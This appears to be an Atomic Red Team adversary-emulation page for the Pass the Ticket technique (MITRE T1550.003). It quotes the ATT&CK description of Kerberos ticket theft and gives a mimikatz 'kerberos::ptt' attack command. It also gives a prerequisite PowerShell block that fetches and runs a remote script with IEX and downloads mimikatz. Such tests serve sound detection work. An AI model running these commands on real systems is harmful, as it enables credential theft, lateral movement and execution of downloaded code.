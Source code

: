 # T1550.003 - Use Alternate Authentication Material: Pass the Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/003)
<blockquote>Adversaries may “pass the ticket” using stolen Kerberos tickets to move laterally within an environment, bypassing normal system access controls. Pass the ticket (PtT) is a method of authenticating to a system using Kerberos tickets without having access to an account's password. Kerberos authentication can be used as the first step to lateral movement to a remote system.

When preforming PtT, valid Kerberos tickets for [Valid Accounts](https://attack.mitre.org/techniques/T1078) are captured by [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). A user's service tickets or ticket granting ticket (TGT) may be obtained, depending on the level of access. A service ticket allows for access to a particular resource, whereas a TGT can be used to request service tickets from the Ticket Granting Service (TGS) to access any resource the user has privileges to access.(Citation: ADSecurity AD Kerberos Attacks)(Citation: GentilKiwi Pass the Ticket)

A [Silver Ticket](https://attack.mitre.org/techniques/T1558/002) can be obtained for services that use Kerberos as an authentication mechanism and are used to generate tickets to access that particular resource and the system that hosts the resource (e.g., SharePoint).(Citation: ADSecurity AD Kerberos Attacks)

A [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) can be obtained for the domain using the Key Distribution Service account KRBTGT account NTLM hash, which enables generation of TGTs for any account in Active Directory.(Citation: Campbell 2014)

Adversaries may also create a valid Kerberos ticket using other user information, such as stolen password hashes or AES keys. For example, "overpassing the hash" involves using a NTLM password hash to authenticate as a user (i.e. [Pass the Hash](https://attack.mitre.org/techniques/T1550/002)) while also using the password hash to create a valid Kerberos ticket.(Citation: Stealthbits Overpass-the-Hash)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Kerberos Ticket Attack](#atomic-test-1---mimikatz-kerberos-ticket-attack)

<br/>

## Atomic Test #1 - Mimikatz Kerberos Ticket Attack
Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows


**auto_generated_guid:** dbf38128-7ba7-4776-bedf-cc2eed432098





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ticket | Ticket file name usually format of 'id-username&#92;@domain.kirbi' (e.g. can be dumped by "sekurlsa::tickets /export" module) | string | |
| mimikatz_exe | Path of the Mimikatz binary | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;bin&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{mimikatz_exe}" "kerberos::ptt #{ticket}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>


<br/>
